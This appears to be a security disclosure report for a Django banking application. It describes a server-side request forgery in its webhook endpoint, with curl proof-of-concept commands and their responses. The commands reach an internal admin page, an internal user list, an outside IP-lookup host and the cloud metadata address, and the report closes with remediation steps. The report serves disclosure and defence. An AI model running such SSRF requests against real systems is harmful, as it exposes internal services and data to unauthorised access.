



# Description

Full-read Server-Side Request Forgery (CWE-918) on `POST /banking/webhook/`. The `set_webhook()` view in `Bank/views.py` takes a user-supplied `webhook_url` and fetches it server-side with `requests.get(url, timeout=5)`, returning the response status code **and body** to the caller. No scheme allow-list, no private/loopback/link-local rejection, no DNS re-check. Any authenticated user can make the Django container issue arbitrary outbound requests and read the responses — including internal services unreachable from the internet.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in (use `/banking/pin-skip/` if the PIN gate appears). | Valid session + CSRF token. |
| 2 | POST `webhook_url` pointing at an internal target. | Status + body of the internal response returned. |

# PoC

**1. Reach the localhost-only Django admin:**

```bash
curl -s "http://<TARGET>/banking/webhook/" -b "sessionid=<S>" -X POST \
  -H "X-CSRFToken: ${CSRF}" -H "Referer: http://<TARGET>/" \
  -d "csrfmiddlewaretoken=${CSRF}&webhook_url=http://127.0.0.1:8000/admin/"
# {"status":"tested","code":200,"body":"<!DOCTYPE html>...<title>Log in | Django site admin</title>..."}
```



**2. Confirm outbound SSRF (server's public IP):**

```bash
... webhook_url=http://ifconfig.me
# {"status":"tested","code":200,"body":"51.44.108.90"}
```



**3. Reach the internal API / user list:**



| Target | Result |
|--------|--------|
| `http://127.0.0.1:8000/admin/` | Django admin HTML (200) |
| `http://127.0.0.1:8000/api/users/` | Full user list (200) |
| `http://ifconfig.me` | Public IP `51.44.108.90` (200) |
| `http://169.254.169.254/latest/meta-data/` | Blocked by IMDSv2 (401) |

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthorised disclosure of internal application information and service responses. |
| Integrity | Potential impact on internal services, depending on their functionality and access controls. |
| Availability | No direct impact demonstrated. |

Overall severity: **High** — significant potential impact on the confidentiality of internal services and the effectiveness of network security boundaries.

# Remediation

1. **Enforce a strict destination allow-list** — restrict webhook requests to explicitly authorised external destinations and validate URL schemes, hostnames and ports before initiating outbound connections.
2. **Validate destination IP addresses** — reject private, loopback, link-local and other non-approved address ranges, including IPv4 and IPv6 addresses.
3. **Enforce DNS resolution integrity** — ensure that the actual connection destination complies with the validated destination policy throughout the request lifecycle.
4. **Disable automatic HTTP redirects** — configure the HTTP client with `allow_redirects=False` to prevent requests from following unvalidated destinations.
5. **Restrict outbound network access** — implement deny-by-default network policies and appropriate network segmentation to restrict the webhook functionality to authorised destinations.
6. **Limit response exposure and resource consumption** — do not return remote response bodies to users. Return a minimal status, enforce appropriate timeouts and response size limits, and apply rate limiting.
7. **Add regression tests** — verify destination validation, DNS resolution integrity, redirect handling, network restrictions and response confidentiality.

# Author
Hackrapovic
